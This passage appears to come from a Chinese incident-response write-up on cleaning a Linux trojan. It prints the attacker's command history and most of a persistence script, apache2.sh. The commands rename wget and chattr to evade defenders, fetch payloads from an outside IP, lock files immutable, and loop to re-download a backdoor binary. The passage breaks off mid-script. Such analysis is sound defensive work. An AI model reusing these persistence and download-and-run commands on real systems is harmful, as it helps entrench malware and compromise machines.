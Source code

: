 再次查看命令记录和apache2.sh，确定清除木马的步骤：

# history
(...)
    4  cp /usr/bin/wget /usr/bin/vget
    5  cp /usr/bin/chattr /usr/bin/lockr
    6  chmod 0 /usr/bin/chattr;chmod 0 /usr/bin/wget
    7  lockr +i /usr/bin/chattr;lockr +i /usr/bin/wget
    8  chmod 0755 /usr/bin/vget;chmod 0755 /usr/bin/lockr
    9  vget http://183.60.149.202:8080/apache2.sh
    10  mv /root/apache2.sh /etc/init.d/apache2.sh
    11  chmod 0755 /etc/init.d/apache2.sh
    12  nohup sh /etc/init.d/apache2.sh >/dev/null 2>&1 &
    13  lockr +i /etc/init.d/apache2.sh
    14  vi /etc/rc.local
    15  lockr +i /etc/rc.local
    16  less /etc/init.d/apache2.sh
# cat /etc/init.d/apache2.sh
#!/bin/sh
while [ 1 -gt 0 ];do
Get="/usr/bin/vget"
Lok="/usr/bin/lockr"
Bak="/usr/bin/.filebak"
hosts="/etc/hosts.bak"
File="/usr/bin/icnanker"
if [ ! -f  "$hosts" ];then
    cp -f /etc/hosts.deny /etc/hosts.bak
    lockr +i /etc/hosts.bak
fi
if [ ! -f  "$Lok" ];then
    cp -f /usr/bin/chattr /usr/bin/lockr
    cp -f /usr/bin/chattr /usr/bin/.locks
    cp -f /usr/bin/.locks /usr/bin/lockr
    chmod 0755 /usr/bin/lockr
    chmod 0755 /usr/bin/.locks
    lockr +i /usr/bin/lockr
    lockr +i /usr/bin/.locks
fi
if [ ! -f  "$Get" ];then
    cp -f /usr/bin/wget /usr/bin/vget
    cp -f /usr/bin/wget /usr/bin/.bget
    cp -f /usr/bin/.bget /usr/bin/vget
    chmod 0755 /usr/bin/vget
    chmod 0755 /usr/bin/.bget
    lockr +i /usr/bin/vget
    lockr +i /usr/bin/.bget
fi
Exist=`ss|grep 183.60.149.202:43200|grep -v "grep" `
if [ -z "$Exist" ];then
    lockr -i /usr/bin/.filebak
    lockr -i /usr/bin/icnanker
    chmod 0755 /usr/bin/.filebak
    chmod 0755 /usr/bin/icnanker
    if [ ! -f  "$File" ];then
        if [ ! -f  "$Bak" ];then
            rm -f /etc/init.d/icnanker;rm -f /etc/init.d/icnanker.1
            vget -P /etc/init.d/ vget http://183.60.149.202:8080/icnanker
            mv /etc/init.d/icnanker /usr/bin/icnanker
        else
            cp -f /usr/bin/.filebak /usr/bin/icnanker
        fi